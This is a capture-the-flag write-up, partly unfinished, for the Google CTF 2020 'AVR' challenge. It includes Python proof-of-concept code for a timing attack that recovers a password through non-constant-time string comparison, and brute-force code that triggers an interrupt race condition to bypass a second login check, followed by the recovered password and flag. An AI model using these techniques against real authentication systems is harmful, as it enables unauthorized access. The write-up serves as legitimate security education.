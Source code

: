 # AVR

**Problem Description:**

> We found this old terminal with access to some top secret data, but it's secured by passwords. Can you break in anyway?<br>
>
> [Attachment](./8bfc40e205d0793678e76f2610fc0a9f58159fcdcbbf3424b0538b0b019bfd50c0ddffcaeca391379f260390c90b1e4d5633acb2c334bd5f5663c4072354bb13)<br>
>
> `avr.2020.ctfcompetition.com 1337`

## Solution

As usual, I unzipped the attachment. There were a few files:

- [Makefile](./Makefile)
- [simavr_diff](./simavr_diff)
- [code.c](./code.c)
- [simduino.elf](./simduino.elf)
- [code.hex](./code.hex)

I started by taking a quick peek at `simavr_diff`:

```diff
diff --git a/examples/board_simduino/simduino.c b/examples/board_simduino/simduino.c
index 007b383..7f4fc30 100644
--- a/examples/board_simduino/simduino.c
+++ b/examples/board_simduino/simduino.c
@@ -98,7 +98,7 @@ int main(int argc, char *argv[])
 	char boot_path[1024] = "ATmegaBOOT_168_atmega328.ihex";
 	uint32_t boot_base, boot_size;
 	char * mmcu = "atmega328p";
-	uint32_t freq = 16000000;
+	uint32_t freq = 1000000;
 	int debug = 0;
 	int verbose = 0;
 
<snipped some changes, they mostly replaced loops over file descriptors to just deal with stdin/out or something>
 
--- a/examples/parts/uart_pty.h
+++ b/examples/parts/uart_pty.h
@@ -33,7 +33,7 @@ enum {
 	IRQ_UART_PTY_COUNT
 };
 
-DECLARE_FIFO(uint8_t,uart_pty_fifo, 512);
+DECLARE_FIFO(uint8_t,uart_pty_fifo, 65536);
 
 typedef struct uart_pty_port_t {
 	unsigned int	tap : 1, crlf : 1;
```

Which led me to conclude:

1. We are dealing with the `atmega328p` microcontroller.
2. The clock speed was reduced from 16Mhz to 1Mhz.
3. The `uart_pty_fifo` buffer size was changed from 512 bytes to 65536 bytes.

Then, I moved onto `code.c`

## TODO

- Talk about `code.c`

- Talk about how the first password check screamed, "Timing attack me!"

  - Clock speed reduced
  - Uptime printed
  - `strcmp` for first password vs constant time check for second password

- Talk about blessed determinism, even over network, thanks to simavr and way code was written

- Race condition:

  - Interrupts being queued during `cli()` and executed after `sei()`, if interrupt mask still allows it

  - More specifically, how breadsticks noticed queued interrupts are executed *two* instructions after `sei()`

  - Maybe, also how this doesn't make sense when looking at the [atmega328p datasheet](http://ww1.microchip.com/downloads/en/DeviceDoc/Atmel-7810-Automotive-Microcontrollers-ATmega328P_Datasheet.pdf)? Perhaps a `simavr` bug? Or datasheet error?

    > When using the SEI instruction to enable interrupts, the instruction following SEI will be executed before any pending interrupts

  - `TOIE1` not being unset when `timer_on_off(0)`, so `TIMER1_OVF_vect` can still fire after line 171

  - Coincidentally, `logged_in = 1` takes two instructions and is right after `sei()`.

- Explain [Password 1 Crack POC](#password-1-crack-poc), [Password 2 Bypass POC](#password-2-bypass-poc) and [Flag](#flag) better and move them somewhere else

## Password 1 Crack POC

We search for the password, letter by letter, using a timing attack. Thanks to how very deterministic all of this is, to find the next letter:

1. Connect and spam the current password + one more character that will 100% not be in the password (ie. `\x7f`), as many times as there are letters in the alphabet (`gen_baseline_times`)
   1. Note down the time taken for each attempt (difference in uptime)
2. Connect again and then spam current password + letter for each letter in the alphabet
   1. Note down the time taken for each attempt
3. The first letter whose time taken differs from the baseline, must be the next letter of the password

```python
def main():
    password, password_solved = "", False
    print("Finding password...")
    print("Password: ", end="")
    while not password_solved:
        letter, password_solved = timing_attack_next_char(password)
        password += letter
        print(letter, end="" if not password_solved else "\n")

def timing_attack_next_char(curr_password):
    baseline_times = gen_baseline_times(curr_password)
    msg = "\n"
    for c in map(chr, range(0x21, 0x7f)):
        msg += f"agent\n{curr_password}{c}\n"
    io = connect()
    io.send(msg)
    uptime = get_uptime(io)
    char, password_solved = None, False
    for i in range(0x21, 0x7f):
        if b"Access granted" in get_attempt_output(io):
            char, password_solved = chr(i), True
            break
        new_uptime = get_uptime(io)
        # Don't ever ask me why I am using != instead of >.
        if (new_uptime - uptime) != baseline_times[i-0x21]:
            char = chr(i)
            break
        uptime = new_uptime
    io.close()
    return char, password_solved


def gen_baseline_times(curr_password):
    msg = "\n" + f"agent\n{curr_password}\x7f\n" * (0x7f - 0x21)
    io = connect()
    io.send(msg)
    uptime = get_uptime(io)
    times = []
    for _ in range(0x21, 0x7f):
        new_uptime = get_uptime(io)
        times.append(new_uptime - uptime)
        uptime = new_uptime
    io.close()
    return times
```

## Password 2 Bypass POC

Instead of trying to do any meaningful calculations, to work out the timing required to trigger the race condition, we just brute force :stuck_out_tongue:

```python
def main():
    print("Trying to trigger race condition by padding newlines before login...")
    flag, num_pads = "", 0
    while not flag:
        print(".", end="")
        msg = "\n"*(num_pads+1)+f"agent\n{password}\n"
        io = connect()
        io.send(msg)
        if b"on" in get_post_login_timer_status(io):
            print(f"\nRace condition triggered using {num_pads} newlines.")
            flag = get_flag(io).decode()
        io.close()
        num_pads += 1
    print(f"Flag: {flag}")
```

## Flag

```bash
$ python3 solve.py --remote
Finding password...
Password: doNOTl4unch_missi1es!
Trying to trigger race condition by padding newlines before login...
........................................................................................................................................................................................................................................................................
Race condition triggered using 263 padding newlines.
Flag: CTF{1nv1sibl3_sei_r4c3_c0ndi7i0n}
```


